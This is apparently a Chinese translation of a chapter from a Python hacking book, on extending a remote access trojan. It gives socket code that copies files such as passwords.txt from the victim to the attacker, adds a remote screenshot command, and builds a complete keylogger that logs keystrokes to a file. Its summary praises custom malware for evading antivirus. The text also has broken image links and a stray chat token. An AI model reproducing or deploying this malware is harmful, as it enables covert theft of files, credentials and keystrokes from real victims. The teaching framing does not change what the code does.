








# 7
高级恶意软件

在上一章中，我们学习了如何创建一个非常简单的恶意软件，它执行由黑客发送的 *Windows* 命令并返回这些命令的结果。该程序在仅执行命令的能力方面非常有限。理想情况下，对于 **远程访问工具**，我们希望恶意软件程序具有比这更高级的功能。本章将给你一个关于你可以在恶意软件程序中编写的更高级功能的基本概念。我们将在本章中介绍以下主题：

- 文件传输
- 窃取 Wi-Fi 凭据
- 截屏

## 构建一个 keylogger 文件传输

我们已经在第 6 章《恶意软件开发》中开发的程序中学习了如何发送和接收非常基本的数据。在本章中，我们将尝试从一台 PC 向另一台 PC 发送和接收文件，首先从受害者 PC 向黑客 PC，然后从黑客 PC 向受害者 PC。这将使我们能够访问受害者 PC 上存在的任何敏感文件。例如，假设受害者已将其密码存储在其 PC 上存在的文件中（这是一个非常糟糕的主意；切勿将密码以纯文本文件形式存储在你的 PC 上）；那么我们可以简单地读取文件的内容并将其发送给黑客。让我们看看这是如何工作的。


## 将受害者文件下载到黑客

在这里，我们将修改我们在 *第 6 章，恶意软件开发* 中开发的程序，在其中我们运行 Windows 命令以添加文件传输功能（参见 *创建恶意软件* 部分）。首先，我们将添加下载功能，以将受害者 PC 上的任何文件发送到黑客 PC，并在之后反向发送。要通过网络发送文件，我们需要执行某些步骤。这些步骤如下列出：

- 1. 检查文件是否存在。如果不存在，则抛出错误。
- 2. 如果文件存在，将文件内容读入你的程序。
- 3. 读取内容后，在数据末尾添加一个特殊标记以表示文件传输完成。
- 4. 通过网络发送数据字节。
- 5. 在接收端，接收字节直到匹配标记。
- 6. 一旦识别出标记，将标记从接收到的字节中移除。
- 7. 将剩余的字节写入你的 PC 的文件系统。
- 8. 关闭连接。

如果您不立即理解这些步骤，请不要担心。我们将逐一讲解这些步骤。您可以将此功能添加到我们在 *第 6 章，恶意软件开发* 中已开发的程序中。为了简化操作，使用我们在 *第 6 章，恶意软件开发* 的 *创建恶意软件* 部分中开发的黑客和受害者程序。在 Kali 和 Windows PC 上为黑客和服务器创建一个新项目，这次将其命名为 *advanced_server* 和 *advanced_victim*。将之前章节的代码复制到各自的项目中，以便您拥有可构建的代码库。

让我们首先定义如何将文件从受害者发送到黑客。假设受害者 PC 上存在一个文件，其中存储了受害者的密码。这用作示例。理论上，您可以从受害者 PC 下载您想要的任何文件。

假设文件名是 passwords.txt。让我们以图形形式查看策略，以了解这在实践中如何工作：



图 7.1 – 向黑客发送文件

首先，我们需要将受害者的文件名从黑客发送到受害者。我们已经在学习 *第 6 章，恶意软件开发* 中的套接字时了解了如何通过网络发送文本数据，因此此过程相当直接。在黑客程序中，我们将设计以下策略来发送我们需要从受害者下载的文件名。我们的命令将如下所示，`download passwords.txt`，如果我们想下载名为 `passwords.txt` 的文件。因此，在黑客程序中，我们将检查黑客命令是否以 download 开头以创建此条件的 case。让我们看一下以下代码。在我们检查不同条件的 main loop 中，我们将插入以下检查：

```
elif command.startswith("download"):
    hacker_socket.send(command.encode())
    exist = hacker_socket.recv(1024)
```

第一行检查黑客的命令是否是要从受害者下载文件。如果是，我们将命令发送给受害者，受害者将回复文件是否存在。根据回复，可能采取进一步行动。如果文件存在，我们将处理下载文件的 case，否则我们将安全地退出程序。现在，让我们在黑客程序上暂停一下，转到受害者程序。在受害者端，我们需要添加一个类似的 case 来检查命令是否为 download。如果是，我们将从接收到的消息中检索文件名并检查文件是否存在。转到受害者程序并在 main loop 中编写以下检查：

```
elif hacker_command.startswith("download"):
    file_to_download = hacker_command.strip("download ")
    if os.path.exists(file_to_download):
        exists = "yes"
        victim_socket.send(exists.encode())
    else:
        exists = "no"
        victim_socket.send(exists.encode())
        continue
```

在这里，我们接收命令并检查命令类型。一旦我们接收到包含 download 字符串的命令，我们就可以从命令中剥离 download 部分以检索我们感兴趣的实际文件名。在前一段代码的第三行中，我们检查文件是否存在。如果存在，我们发送回 yes，否则发送回 no。请记住，在黑客程序中，我们正在等待接收此回复到 exists 变量。请注意，我们尚未发送任何文件数据。我们只是创建外部循环以正确处理数据的发送和接收。文件的读取部分将在前一段代码中的第一个 if 语句中处理。现在我们需要读取文件。

让我们看一下以下代码，该代码从受害者机器读取文件然后将其发送回黑客：

```
with open(file_to_download, "rb") as file:
    chunk = file.read(CHUNK_SIZE)
    while len(chunk) > 0:
        victim_socket.send(chunk)
        chunk = file.read(CHUNK_SIZE)
        # This will run till the end of file.

## once the file is complete, we need to send the marker.
victim_socket.send(eof_identifier.encode())
print("File sent successfully")
```

让我们分解我们刚刚看到的代码。file 行是打开并以二进制格式读取文件的命令。即使它是一个文本文件，如果您想通过网络传输文件，最好以二进制格式读取文件，因为在实际情况下文件类型可能是任何类型。然后我们读取一 chunk 字节，我们在文件顶部定义 CHUNK_SIZE = 2048。在读取第一个 chunk 后，我们检查文件是否还有更多字节。如果有，我们使用 while 循环迭代地通过网络发送它们，直到读取文件末尾。此循环将在没有更多 chunk 可从文件中读取时停止。一旦我们通过网络将完整文件发送给黑客，我们需要发送标识符标记以便黑客知道可以停止进一步读取。为此，我们发送 eof_identifier，其值如下，eof_identifier = "<END_OF_FILE_IDENTIFIER>"。黑客将使用此标识符来知道传入数据已完成。

接下来，我们需要在黑客程序中接收此数据。为此，转到黑客程序并检查 exists 变量接收到的值。如果受害者的回复是 yes，这意味着文件存在于受害者机器上，我们可以开始下载它。请注意，我们刚刚开发了发送数据的程序，现在在这里我们将接收相同的数据。接收到的数据将以字节形式存在，我们将把这些字节写入我们的黑客 PC 以生成与受害者 PC 相同的<|message|>。让我们看一下以下代码：

```
if exist.decode() == "yes":
    print("file exists")
    # receive file here
    file_name = command.strip("download ")
    
    with open(file_name, "wb") as file:
        print("Downloading file")
        while True:
            chunk = hacker_socket.recv(CHUNK_SIZE)
            file.write(chunk)
            if chunk.endswith(eof_identifier.encode()):
                chunk = chunk[:-len(eof_identifier)]
                file.write(chunk)
                break
    
    print("Successfully downloaded, ", file_name)
```

如果文件存在，我们将使用与 file_name 相同的名称创建一个新文件。请注意，我们以 wb 或写二进制模式创建文件，以便我们可以下载任何类型的文件。一旦我们创建文件，我们需要写入从受害者接收到的文件内容。我们将 CHUNK_SIZE 变量定义为与我们在受害者发送时定义的大小相同，然后我们开始连续接收数据并将其写入磁盘直到结束，该结束由标记标识。您需要在受害者中定义完全相同的 eof_identifier 变量，否则程序将无法工作。一旦我们到达标识符，我们将移除标识符，将剩余字节写入磁盘，然后退出循环。最后，我们可以打印一条语句，表明我们已接收到所有数据。现在我们的程序已完成，使用此程序，我们可以从受害者下载数据到黑客。


黑客的完整代码如下所示：

https://github.com/PacktPublishing/Python-Ethical-Hacking/blob/main/example10-hacker-advanced/hacker.py

同样，受害者用于向黑客发送文件的完整代码如下所示：

https://github.com/PacktPublishing/Python-Ethical-Hacking/blob/main/example11-advanced-victim/advanced-victim.py

现在，让我们尝试运行这个程序。首先运行黑客程序，然后运行受害者程序。

在受害者电脑上创建一个名为 passwords.txt 的文件，并在其中写入一些随机密码：



图 7.2 – 受害者电脑上的密码文件

接下来，在黑客程序中写入以下命令：download passwords.txt。

现在，一旦程序运行，你将在黑客电脑上看到完全相同的文件：



图 7.3 – 从受害者下载文件

## 截屏

你也可以使用恶意软件截取受害者电脑的屏幕。为此，你需要安装额外的库。我们需要一个名为 pyautogui 的模块。该模块将帮助你在受害者电脑上截屏：

- 1. 要安装它，请前往你的受害者机器并写入以下命令进行安装。最好创建一个虚拟环境并在虚拟环境中安装此程序：
- 2. 接下来，我们需要定义截屏的用例。在黑客程序中，创建一个新的 case 并设置以下条件：
- 3. 同样，在受害者程序中，也写入相同的 case：
- 4. 让我们运行这个程序看看输出是什么样的。在黑客机器上，输出应如下所示：

```
pip install pyautogui
```

这将安装所需的模块。

```
if command == "screenshot":
    print("Taking screenshot")
```

```
elif hacker_command == "screenshot":
    print("Taking screenshot")
    screenshot = pyautogui.screenshot()
    screenshot.save("screenshot.png")
    print("screenshot saved")
```

这将在受害者电脑上以 screenshot.png 的名称保存截屏。



图 7.5 – 黑客程序截屏

受害者程序如下所示：



图 7.6 – 受害者程序截屏

5. 如果你前往受害者电脑，你会看到磁盘上保存了一个名为 screenshot.png 的文件。你可以使用我们之前学过的方法将此文件检索到黑客电脑。只需在黑客程序中写入以下命令：

```
download screenshot.png
```

这将把截屏移动到黑客电脑。我截取了以下截屏：



图 7.7 – 在 Windows PC 上截取的屏幕截图

在本节中，我们学习了如何使用黑客程序截取受害者电脑的屏幕，以及如何将文件传输到黑客电脑。在下一节中，我们将学习如何创建键盘记录器来跟踪受害者的击键。

## 键盘记录器

在本节中，我们将构建一个简单的键盘记录器。键盘记录器是一种记录用户击键的恶意软件程序。它是最常见的恶意软件类型之一。键盘记录器通常用于窃取密码和其他敏感信息，例如信用卡。键盘记录器通常被设计为尽可能安静，这意味着键盘记录器非常难以检测。让我们尝试构建一个简单的键盘记录器。你需要安装一个名为 pynput 的模块来构建键盘记录器。该模块允许你以编程方式访问击键：

- 1. 要安装此模块，请使用以下命令：
```
pip install pynput
```
这将安装该模块：
- 2. 安装模块后，我们可以从该模块导入 keyboard：
```
from pynput import keyboard
```
- 3. 接下来，我们将定义一个用于监听击键的监听器。该监听器将在不同事件上处理不同的情况。看一下以下代码：
```
with keyboard.Listener(on_press=onPress, on_release=onRelease) as listener:
    listener.join()
```

```
pip install pynput
```

```
from pynput import keyboard
```

```
with keyboard.Listener(on_press=onPress, on_release=onRelease) as listener:
    listener.join()
```

之前的代码为按键的 *按下* 和 *释放* 定义了两个函数。当按下键时，将调用 onPress 函数，当释放键时，将调用 onRelease 函数。

4. 现在我们将定义这些函数。让我们看一下这些函数：

```
def onPress(key):
    print(str(key))

def onRelease(key):
    if str(key) == 'Key.esc':
        return False
```

我们定义了非常简单的函数。当我们按下键时，我们简单地打印它，当键被释放时，我们检查按下了哪个键。如果按下的键是 *Esc* 键，我们退出程序，否则继续。这样，我们有一个退出条件，不会被卡住。如果我们不定义此条件，就无法退出程序，因为按下 *Ctrl + C* 只会打印它而不是退出。为了安全地返回此函数，我们返回 False 值。让我们看一下简单的执行情况：



图 7.8 – 打印按下的键

在此屏幕截图中，我们在程序执行期间打印了按下的键。当我们按下 *Esc* 键时，它退出了程序。这就是一个非常基本的键盘记录器的全部内容。然而，在实际情况下，你将在受害者机器上运行此程序，因此仅在控制台上打印并不是很有帮助。理想情况下，我们希望保留这些击键的日志。许多键盘记录器将击键存储在文件中，黑客可以检索并查看是否输入了任何密码或其他敏感信息。

5. 现在我们将对键盘记录器进行更改，使其更有用。让我们创建一个新的文件名，keylogs.txt。

我们将在此文件中存储日志。让我们看一下代码：

```
import sys
filename = "keylogs.txt"

file = open(filename, "w")
def onPress(key):
    print(str(key))
    file.write(str(key))

def onRelease(key):
    if str(key) == 'Key.esc':
        file.close()
        sys.exit(0)
```

这里我们在写模式下创建一个文件，每次按下键时，我们都会将键存储在文件中。最后，当按下 Esc 键时，我们关闭文件并退出。如果你启动程序并运行它并按下一些键，你会看到创建了一个新文件，并且所有键日志都存储在文件中。这是我的执行结果：



图 7.9 – 存储在文件中的击键

6. 你可以在前面的屏幕截图中看到，每个字符周围都有引号。我们可以删除这些引号以提高可视性。为了替换它，我们可以更新以下代码：

```
def onPress(key):
    print(str(key))
    stroke = str(key).replace("'", "")
    if str(key) == "Key.esc":
        file.write(" ")
    else:
        file.write(stroke)
```

这里，我们做了两个更改。首先，我们在写入文件之前将单引号替换为空字符串，其次，如果键是 Esc，我们不将其写入文件。现在，如果你运行程序，你会看到它只注册字符。

如果你按下任何特殊键，例如 Enter 或空格，你会看到程序注册其名称而不是其功能，这不是我们想要的。我们希望在用户按下空格按钮时看到一个空格。为此，我们将添加以下更改：

```
def onPress(key):
    print(str(key))
    stroke = str(key).replace("'", "")
    if str(key) == "Key.space":
        file.write(" ")
    elif str(key) == "Key.enter":
        file.write("\n")
    elif str(key) == "Key.esc":
        file.write(" ")
    else:
        file.write(stroke)
```


7. 我们的键盘记录器已基本完成。我们只需再添加最后一个修改。我们的键盘记录器不支持退格键。要添加此功能，请看下面的代码：

```
import os
    elif str(key) == "Key.backspace":
        file.seek(file.tell()-1, os.SEEK_SET)
        file.write("")
```

这段代码会检测退格键，如果遇到退格键，我们就向后移动一个字符，并在那里写入一个空字符串。这会替换文件中已存储的现有字符。现在，我们的基础键盘记录器已经完成。它既支持字符插入，也支持退格记录功能。键盘记录器的完整代码如下：

```
from pynput import keyboard
import sys
import os

filename = "keylogs.txt"

file = open(filename, "w")


def onPress(key):
    print(str(key))
    stroke = str(key).replace("'", "")
    if str(key) == "Key.space":
        file.write(" ")
    elif str(key) == "Key.enter":
        file.write("\n")
    elif str(key) == "Key.esc":
        file.write(" ")
    elif str(key) == "Key.backspace":
        file.seek(file.tell()-1, os.SEEK_SET)
        file.write("")
    else:
        file.write(stroke)
```

```
def onRelease(key):
    if str(key) == 'Key.esc':
        file.close()
        sys.exit(0)
if __name__ == "__main__":
    with keyboard.Listener(on_press=onPress, on_release=onRelease) as listener:
        listener.join()
```

在本节中，我们学习了如何部署一个简单的键盘记录器。以此为基础，你可以编写一个更高级的键盘记录器。

## 总结

在本章中，我们学习了如何为我们的基础恶意软件添加高级功能。首先，我们增加了从受害者到客户端的文件传输支持，然后添加了附加功能，例如截取受害者机器的屏幕截图并将其发送回黑客。最后，我们构建了自己的键盘记录器。每天都有成千上万的恶意软件被编写出来，杀毒软件努力跟上它们的检测步伐。自己编写恶意软件的优势在于，由于它由你编写，且尚不存在于杀毒软件数据库中，杀毒软件并不容易检测到它。这让你有更大机会成功发动攻击。使用我们在本章中开发的工具，你将理解如何构建更高级的恶意软件，以及如何随心所欲地为其添加更多功能。通过编写自定义恶意软件所获得的技能，将为你提供更多隐蔽攻击的机会，并减少被杀毒软件检测到的可能。

在下一章中，我们将了解如何将代码打包成单个可执行文件，以及如何将其用于黑客攻击。下一章见！
